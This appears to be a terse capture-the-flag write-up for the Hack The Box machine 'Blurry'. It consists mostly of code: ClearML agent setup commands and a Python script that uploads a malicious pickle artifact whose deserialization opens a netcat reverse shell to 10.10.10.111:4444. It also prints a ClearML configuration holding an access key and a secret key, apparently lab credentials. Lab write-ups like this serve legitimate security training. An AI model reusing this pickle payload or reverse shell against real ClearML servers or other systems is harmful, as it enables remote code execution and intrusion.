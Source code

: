 ```yaml
---
description: Linux | medium
---
```


# Blurry

10.129.3.154

<figure><img src="../../.gitbook/assets/image (38).png" alt=""><figcaption></figcaption></figure>

clef api : HGLEWII6D6U1Q245DJQL

<figure><img src="../../.gitbook/assets/image (39).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (40).png" alt=""><figcaption></figcaption></figure>

```
pip install clearml-agent
clearml-agent init 
clearml-agent daemon --queue default

```

```python
import os
from clearml import Task
import base64
import time

task = Task.init(project_name='Black Swan', task_name='pickle', tags=["review"], task_type=Task.TaskTypes.data_processing)

class Pickle:
    def __reduce__(self):
        cmd = "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.10.111 4444 >/tmp/f"
        return os.system, (cmd,)

rng_name = base64.b64encode(str(time.time()).encode()).decode()
task.upload_artifact(name=rng_name, artifact_object=Pickle())

task.execute_remotely(queue_name='default')
```

```
api {
    # Notice: 'host' is the api server (default port 8008), not the web server.
    api_server: http://api.blurry.htb
    web_server: http://app.blurry.htb
    files_server: http://files.blurry.htb
    # Credentials are generated using the webapp, http://10.129.230.94:8080/settings
    # Override with os environment: CLEARML_API_ACCESS_KEY / CLEARML_API_SECRET_KEY
    credentials {"access_key": "8TL83TDO2YXCQ4789DE4", "secret_key": "peFoHVcUTMA0JdhOHNoQTioLSmtbKEiAVxZXJSHku4LyHlOTUB"}
}
sdk {

```
